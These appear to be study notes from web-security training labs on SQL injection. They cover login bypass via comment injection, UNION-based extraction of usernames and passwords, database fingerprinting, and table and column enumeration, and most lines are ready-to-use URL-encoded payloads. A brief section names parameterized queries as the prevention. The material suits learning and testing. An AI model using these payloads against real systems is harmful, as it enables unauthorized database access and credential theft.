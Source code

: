 # **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
[https://insecure-website.com/products?category=Gifts%27--]

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 
[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 
### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 
### UNION attacks, where you can retrieve data from different database tables 
`SELECT name, description FROM products WHERE category = 'Gifts'` `' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 
`SELECT * FROM information_schema.tables` -- what DB table exist 
`SELECT * FROM v$version` -- Oracle version 
### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
## How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
## Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
## Some Useful Commands
###### SQL injection UNION attack, retrieving multiple values in a single column
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle 
`'+UNION+SELECT+'abc','def'+FROM+dual--` `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft 
`'+UNION+SELECT+'abc','def'#` `'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' 
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
